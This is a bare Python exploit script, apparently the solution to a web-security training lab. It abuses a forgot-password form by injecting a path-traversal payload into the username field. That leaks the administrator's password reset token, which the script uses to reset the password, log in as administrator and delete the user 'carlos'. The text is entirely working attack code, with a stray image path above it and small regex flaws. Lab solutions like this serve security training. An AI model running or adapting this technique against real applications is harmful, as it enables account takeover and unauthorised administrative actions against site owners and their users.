 ```python
## retrieve code
r = s.get(url + '/forgot-password', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

reset_data = {
	'csrf':reset_csrf_token,
	'username':'../../../../api/internal/v1/users/administrator/field/passwordResetToken#'
}
r = s.post(url + '/forgot-password', proxies=proxies, verify=False, data=reset_data)
if 'passwordResetToken' not in r.text:
	print('[-] error with generating code')
	exit()

match = re.search(r'result": "([0-9a-zA-z]+)', r.text)
if not match:
	print('[-] cannot find reset token')
password_token = match[1]
print(f'[+] found token: {password_token}')

## reset password
r = s.get(url + f'/forgot-password?passwordResetToken={password_token}', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

password_data = {
	'csrf':reset_csrf_token,
	'passwordResetToken':password_token,
	'new-password-1':'test1234',
	'new-password-2':'test1234'
}

r = s.post(url + f'/forgot-password?passwordResetToken={password_token}', proxies=proxies, verify=False, data=password_data)

## login and solve
r = s.get(url + '/login', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf = match[1]

login_data = {
	'csrf':login_csrf,
	'username':'administrator',
	'password':'test1234'
}

r = s.post(url + '/login', proxies=proxies, verify=False, data=login_data)
if 'Your email is:' not in r.text:
	print('[-] login failed')
	exit()
print('[+] login worked')
s.get(url + '/admin/delete?username=carlos', proxies=proxies, verify=False)
```